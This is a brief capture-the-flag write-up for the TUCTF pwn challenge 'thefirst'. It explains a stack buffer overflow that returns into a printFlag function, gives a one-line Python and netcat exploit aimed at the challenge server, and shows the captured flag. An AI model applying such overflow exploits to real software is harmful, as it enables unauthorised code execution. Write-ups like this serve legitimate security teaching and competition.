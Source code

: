 # thefirst

## PWN - Points: 500

> Get warmed up, we'll be here for a while.
>
> 
>
> nc chal.tuctf.com 30508
>
> [thefirst](thefirst)
>

Overflow the buffer and return to the `printFlag` function.

	$ python2 -c "print('A'*24+'\xf6\x91\x04\x08')" | nc chal.tuctf.com 30508

flag: `TUCTF{0n3_d0wn..._50_m4ny_70_60}`